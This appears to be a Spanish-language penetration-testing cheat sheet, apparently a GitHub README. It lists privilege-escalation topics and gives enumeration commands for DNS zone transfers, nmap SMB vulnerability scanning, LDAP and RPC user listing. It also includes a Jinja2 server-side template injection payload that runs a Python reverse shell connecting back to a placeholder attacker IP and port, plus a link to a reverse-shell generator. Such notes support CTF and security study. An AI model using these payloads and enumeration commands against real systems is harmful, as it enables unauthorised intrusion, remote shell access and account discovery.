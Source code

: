 
## Apuntes relevantes 
Mejor web de reverse codes: [Revshells](https://www.revshells.com/)
- [Enum](#enum)
- [Linux Priv esc](#linux-priv-esc)
    * [Check List](#check-list)
    * [Script cron check](#script-cron-check)
    * [Grupos](#ver-a-que-grupo-pertenecemos)
    * [mysql](#si-mysql-se-esta-ejecutando-como-root)
    * [Docker](#docker-escape)
- [Windows Priv esc](#windows-priv-esc)
    * [Checkm list](#win-check-list)
    * [Impresonate Privilege](#seimpersonateprivilege--seassignprimarytoken-enabled)
    * [Backup Privilege](#SeBackupPrivilege)
    * [LoadDriver Privilege](#SeLoadDriverPrivilege)
    * [DNS admins](#dnsadmins)
    * [Server Operatos](#server-operators)
    * [Post Explotation](##windows-post-explotaton)

###  Enum

dns
```
host -t axfr <DOMAIN> <IP>
dnsrecon -d <domain> -t axfr
dig <DOMAIN> @ip axfr
```
smb vuln check
```
nmap -Pn --script=smb-vuln\* -p 445
```
SSTI python reverse shell one liner


{% highlight python %}
{% raw %}
    for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<IP>\",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'").read().zfill(417)}}{% endif %}{% endfor %}

{% endraw %}
{% endhighlight %}


LDAP enum
```
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local"  | grep "@cascade.local"
```
RPC
```
Obtener usuarios
rpcclient -U "" <IP> -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v -E '0x|DefaultAccount|Guest' | sort -u | tr -d '[]'

```
